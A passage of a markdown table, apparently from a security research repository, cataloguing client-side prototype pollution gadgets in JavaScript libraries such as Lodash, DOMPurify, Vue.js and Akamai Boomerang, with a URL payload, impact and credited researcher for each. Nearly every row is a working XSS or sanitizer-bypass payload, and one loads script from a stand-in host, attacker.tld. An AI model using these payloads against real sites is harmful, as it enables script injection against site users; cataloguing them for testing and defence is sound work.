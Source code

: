 | [Tealium Universal Tag](/gadgets/tealium-utag.md)       | `?__proto__[attrs][src]=1`<br>`&__proto__[src]=data:,alert(1)//`              | XSS               |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Akamai Boomerang](/gadgets/akamai-boomerang.md)        | `?__proto__[BOOMR]=1`<br>`&__proto__[url]=//attacker.tld/js.js`               | XSS               |                                                   | [s1r1us](https://twitter.com/S1r1u5_)               |
| [Lodash <= 4.17.15](/gadgets/lodash.md)                 | `?__proto__[sourceURL]=%E2%80%A8%E2%80%A9alert(1)`                            | XSS               | [[1]](https://github.com/lodash/lodash/pull/4518) | [Alex Brasetvik](https://twitter.com/alexbrasetvik) |
| [sanitize-html](/gadgets/sanitize-html.md)              | `?__proto__[*][]=onload`                                                      | Bypass            | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [sanitize-html](/gadgets/sanitize-html.md)              | `?__proto__[innerText]=<script>alert(1)</script>`                             | Bypass            | [[1]](https://github.com/apostrophecms/sanitize-html/commit/0fe551c2c6fac1277c0b9688263bd61acc52baf8)| [Hpdoger](https://twitter.com/hpdoger)              |
| [js-xss](/gadgets/js-xss.md)                            | `?__proto__[whiteList][img][0]=onerror`<br>`&__proto__[whiteList][img][1]=src`| Bypass            | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [DOMPurify <= 2.0.12](/gadgets/dompurify.md)            | `?__proto__[ALLOWED_ATTR][0]=onerror`<br>`&__proto__[ALLOWED_ATTR][1]=src`    | Bypass            | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [DOMPurify <= 2.0.12](/gadgets/dompurify.md)            | `?__proto__[documentMode]=9`                                                  | Bypass            | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [Google Closure](/gadgets/closure.md)                          | `?__proto__[*%20ONERROR]=1`<br>`&__proto__[*%20SRC]=1`                        | Bypass            | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [Google Closure](/gadgets/closure.md)                          | `?__proto__[CLOSURE_BASE_PATH]=data:,alert(1)//`                              | XSS               | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [Marionette.js / Backbone.js](/gadgets/marionette.md)   | `?__proto__[tagName]=img`<br>`&__proto__[src][]=x:`<br>`&__proto__[onerror][]=alert(1)` | XSS     |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Adobe Dynamic Tag Management](/gadgets/adobe-dtm.md)   | `?__proto__[src]=data:,alert(1)//`                                            | XSS               |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Adobe Dynamic Tag Management](/gadgets/adobe-dtm.md)   | `?__proto__[SRC]=<img/src/onerror%3dalert(1)>`                                | XSS               |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Swiftype Site Search](/gadgets/swiftype-site-search.md)| `?__proto__[xxx]=alert(1)`                                                    | XSS               |                                                   | [s1r1us](https://twitter.com/S1r1u5_)               |
| [Embedly Cards](/gadgets/embedly.md)                    | `?__proto__[onload]=alert(1)`                                                 | XSS               |                                                   | [Guilherme Keerok](https://twitter.com/k33r0k)      |
| [Segment Analytics.js](/gadgets/segment-analytics.md)   | `?__proto__[script][0]=1`<br>`&__proto__[script][1]=<img/src/onerror%3dalert(1)>`| XSS            |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Knockout.js](/gadgets/knockout.md)<br>Array.prototype  | `?__proto__[4]=a':1,[alert(1)]:1,'b`<br>`&__proto__[5]=,`                     | XSS               |                                                   | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [Zepto.js](/gadgets/zepto.md)                           | `?__proto__[onerror]=alert(1)`                                                | XSS               | [[1]](https://xz.aliyun.com/t/8552)               | [lih3iu](https://twitter.com/lih3iu)                |
| [Zepto.js](/gadgets/zepto.md)                           | `?__proto__[html]=<img/src/onerror%3dalert(1)>`                               | XSS               |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Sprint.js](/gadgets/sprint.md)                         | `?__proto__[div][intro]=<img%20src%20onerror%3dalert(1)>`                     | XSS               | [[1]](https://xz.aliyun.com/t/8552)               | [lih3iu](https://twitter.com/lih3iu)                |
| [Vue.js](/gadgets/vuejs.md)                             | `?__proto__[v-if]=_c.constructor('alert(1)')()`                               | XSS               |                                                   | [POSIX](https://twitter.com/po6ix)                |